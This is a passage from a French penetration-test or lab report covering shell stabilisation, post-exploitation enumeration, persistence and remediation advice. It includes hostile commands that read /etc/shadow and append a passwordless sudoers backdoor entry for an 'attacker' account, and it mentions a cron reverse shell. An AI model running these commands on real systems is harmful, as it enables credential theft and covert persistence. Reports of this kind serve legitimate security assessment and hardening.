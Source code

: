 #### Étape 3 : Obtention d'un shell stable
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

#### Étape 4 : Enumération post-exploitation
```bash
id
uname -a
cat /etc/passwd
cat /etc/shadow
```

#### Étape 5 : Persistence
```bash
echo "attacker ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
crontab -e  # Ajouter un reverse shell
```

---

## 🔓 6. Post-exploitation

### Privilèges obtenus
- **Utilisateur** : root
- **UID** : 0
- **Groupe** : root (0)

### Données sensibles récupérées
- Fichier `/etc/shadow` (hashes des mots de passe)
- Base de données MySQL complète
- Clés SSH privées
- Historique des commandes (`.bash_history`)

### Persistence établie
- Création d'un compte backdoor
- Ajout d'une tâche cron pour reverse shell
- Modification de `/etc/rc.local`

---

## 🛡️ 7. Recommandations

### Priorité 🔴 Critique
1. **Mettre à jour tous les services** immédiatement
   - vsftpd vers 3.x
   - Samba vers 4.x
   - Apache vers 2.4.x
   - MySQL vers 8.x

2. **Désactiver les services inutiles**
   - Telnet (utiliser SSH uniquement)
   - FTP (utiliser SFTP)
   - Services non essentiels
